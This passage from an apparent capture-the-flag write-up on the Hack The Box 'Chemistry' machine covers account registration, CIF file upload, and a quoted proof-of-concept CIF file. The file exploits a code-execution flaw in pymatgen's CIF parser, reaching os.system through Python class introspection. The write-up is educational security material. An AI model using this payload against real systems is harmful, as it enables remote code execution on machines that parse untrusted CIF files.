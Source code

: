 {{<figure src="/img/htb/chemistry/login_page_invalid_creds.png" position=center caption="Invalid credentials">}}

### Creating an account
___
We can try to register an account at `/register`

{{<figure src="/img/htb/chemistry/create_account.png" position=center caption="Registering an account">}}

After registering an account we get access to the following dashboard:

{{<figure src="/img/htb/chemistry/dashboard.png" position=center caption="Dashboard">}}

The website allows us to upload a CIF file. It also provides us with an example at `/static/example.cif`:

{{<code language="cif" title="/static/example.cif">}}
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
{{</code>}}

### Exploit for CIF files
___
A searching for exploits involving CIF files, we find [this security report](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f) showing how we can get RCE with a malicious CIF file using this POC:

{{<code language="bash" title="POC cif file">}}
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'
